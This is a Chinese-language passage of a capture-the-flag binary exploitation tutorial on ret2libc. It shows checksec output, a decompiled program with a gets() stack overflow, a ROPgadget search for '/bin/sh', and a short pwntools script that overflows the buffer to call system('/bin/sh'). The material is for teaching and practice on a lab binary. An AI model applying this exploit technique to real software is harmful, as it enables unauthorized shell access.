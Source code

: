 ret2libc 即控制函数的执行 libc 中的函数，通常是返回至某个函数的 plt 处或者函数的具体位置 (即函数对应的 got 表项的内容)。一般情况下，我们会选择执行 system("/bin/sh")，故而此时我们需要知道 system 函数的地址。





**例1**

首先，我们可以检查一下程序的安全保护

```
➜  ret2libc1 checksec ret2libc1    
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

源程序为 32 位，开启了 NX 保护。下面来看一下程序源代码，确定漏洞位置

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets((char *)&v4);
  return 0;
}
```

可以看到在执行 gets 函数的时候出现了栈溢出。此外，利用 ropgadget，我们可以查看是否有 /bin/sh 存在

```
➜  ret2libc1 ROPgadget --binary ret2libc1 --string '/bin/sh'          
Strings information
============================================================
0x08048720 : /bin/sh
```

EXP

```python
sh = process('ret2libc1')

binsh = 0x08048720
system_addr = 0x8048460

payload = flat(['Z' * 112, system_addr, b'Z' * 4, binsh])

sh.sendline(payload)
sh.interactive()
```

这里我们需要**注意函数调用栈的结构**，如果是正常调用 system 函数，我们调用的时候会有一个对应的返回地址，**也就是 call 的时候会将返回地址压栈**，这里以'ZZZZ' 作为虚假的地址，**其后参数对应的参数内容**
